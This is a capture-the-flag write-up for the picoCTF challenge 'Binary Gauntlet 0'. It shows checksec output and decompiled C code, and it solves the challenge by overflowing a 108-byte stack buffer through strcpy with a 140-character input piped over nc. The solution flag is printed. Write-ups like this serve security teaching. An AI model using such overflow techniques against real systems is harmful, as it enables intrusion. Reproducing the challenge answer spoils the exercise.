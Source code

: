 # Binary Gauntlet 0
Category: Binary Exploitation, 10 points

## Description

> This series of problems has to do with binary protections and how they affect a very simple program. How far can you make it in the gauntlet?

A binary file was attached.

## Solution

Let's run `checksec` on the file:

```console
┌──(user@kali)-[/media/sf_CTFs/pico/Binary_Gauntlet_0]
└─$ checksec --file=gauntlet
[*] '/media/sf_CTFs/pico/Binary_Gauntlet_0/gauntlet'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

We can see that there are virtually no protections for this program.

Using Ghidra, we can check the decompiled output of the program:

```c
void sigsegv_handler(void)
{
  fprintf(stderr,"%s\n",flag);
  fflush(stderr);
                    /* WARNING: Subroutine does not return */
  exit(1);
}

undefined8 main(void)
{
  char local_88 [108];
  __gid_t local_1c;
  FILE *local_18;
  char *local_10;
  
  local_10 = (char *)malloc(1000);
  local_18 = fopen("flag.txt","r");
  if (local_18 == (FILE *)0x0) {
    puts(
        "Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are runningthis on the shell server."
        );
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  fgets(flag,0x40,local_18);
  signal(0xb,sigsegv_handler);
  local_1c = getegid();
  setresgid(local_1c,local_1c,local_1c);
  fgets(local_10,1000,stdin);
  local_10[999] = '\0';
  printf(local_10);
  fflush(stdout);
  fgets(local_10,1000,stdin);
  local_10[999] = '\0';
  strcpy(local_88,local_10);
  return 0;
}
```

We can see that the program sets up a SIGSEGV handler, which gets called when a segmentation fault occurs. Conveniently, this handler just prints the flag. So all we need to do is cause a segmentation fault. Notice how the program reads up to 1000 characters from the standard input via `fgets(local_10,1000,stdin)`, then calls `strcpy(local_88,local_10)` to copy the input to a much shorter local variable: `char local_88 [108]`. Therefore, if we provide an input somewhat longer than `108`, we'll overflow the stack and corrupt the execution, causing the program to segfault.

```console
┌──(user@kali)-[/media/sf_CTFs/pico/Binary_Gauntlet_0]
└─$ python3 -c "print('a'*140)" |  nc mercury.picoctf.net 37752
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
9595dc79e46ae416c5383d858afbb624
```

The flag: `9595dc79e46ae416c5383d858afbb624`
